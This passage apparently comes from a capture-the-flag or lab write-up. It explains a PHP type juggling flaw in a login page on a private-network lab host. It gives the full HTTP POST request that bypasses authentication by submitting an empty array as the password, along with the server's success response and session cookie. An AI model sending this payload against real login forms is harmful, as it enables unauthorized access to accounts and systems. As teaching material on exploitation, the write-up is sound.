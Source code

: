 ```bash
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

> This source code seems to be the code of the login page we identified earlier with `gobuster`
{: .prompt-info }

> Having a closer look at the `if` statement comparing the submitted credentials reveals that there is a [`type juggling`](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) vulnerability. We can exploit this issue by submitting an array instead of a password string to bypass the login.
{: .prompt-info }

## authentication bypass
### request
```http
POST /admin/index.php?login=1 HTTP/1.1
Host: 192.168.153.101
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.153.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.153.101/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=admin&password[]=
```

### response
```http
HTTP/1.1 200 OK
Date: Tue, 08 Feb 2022 20:15:27 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh; expires=Wed, 08-Feb-2023 20:15:27 GMT; Max-Age=31536000
Vary: Accept-Encoding
Content-Length: 91
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<head></head>
<body>

Welcome! </br> Go to the <a href="dashboard.php">dashboard</a>
```

